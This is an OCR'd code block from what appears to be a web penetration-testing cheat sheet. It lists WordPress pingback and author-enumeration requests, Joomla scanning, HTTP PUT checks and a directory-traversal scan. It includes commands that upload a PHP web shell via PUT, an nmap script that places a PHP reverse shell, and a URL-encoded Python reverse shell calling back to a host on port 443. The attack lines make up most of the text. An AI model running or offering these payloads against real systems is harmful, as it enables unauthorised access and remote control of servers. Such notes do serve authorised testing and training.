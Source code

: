 ```
 <param>
  <value>
   <string>http://10.0.0.1/hello/world</string>
  </value>
 </param>
 <param>
  <value>
   <string>https://IP.com/2020/01/22/hello-world/</string>
  </value>
 </param>
</params>
</methodCall>

curl -X POST -d @pingback.xml https://ip.com/xmlrpc.php

Enum User:
for i in {1..50}; do curl -s -L -i https://ip.com/wordpress\?author=$i | grep -E -o "Location:.*" | awk -F/ '{print $NF}'; done

# Joomscan
joomscan -u  http://10.11.1.111 
joomscan -u  http://10.11.1.111 --enumerate-components

# Get header
curl -i 10.11.1.111

# Get options
curl -i -X OPTIONS 10.11.1.111

	# With PUT option enabled:
	
	nmap -p 80 10.1.10.111 --script http-put --script-args http-put.url='/test/rootme.php',http-put.file='/root/php-reverse-shell.php'

	curl -v -X PUT -d '<?php system($_GET["cmd"]);?>' http://10.1.10.111/test/cmd.php
	&& http://10.1.10.111/test/cmd.php?cmd=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%210.1.10.111%22,443));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27

# Get everything
curl -i -L 10.11.1.111
curl -i -H "User-Agent:Mozilla/4.0" http://10.11.1.111:8080

# Check for title and all links
curl 10.11.1.111 -s -L | grep "title\|href" | sed -e 's/^[[:space:]]*//'

# Look at page with just text
curl 10.11.1.111 -s -L | html2text -width '99' | uniq

# Check if it is possible to upload
curl -v -X OPTIONS http://10.11.1.111/
curl -v -X PUT -d '<?php system($_GET["cmd"]); ?>' http://10.11.1.111/test/shell.php

# Simple curl POST request with login data
curl -X POST http://10.11.1.11/centreon/api/index.php?action=authenticate -d 'username=centreon&password=wall'

dotdotpwn.pl -m http -h 10.11.1.111 -M GET -o unix

site:domain.com intext:user


# Firebase
```
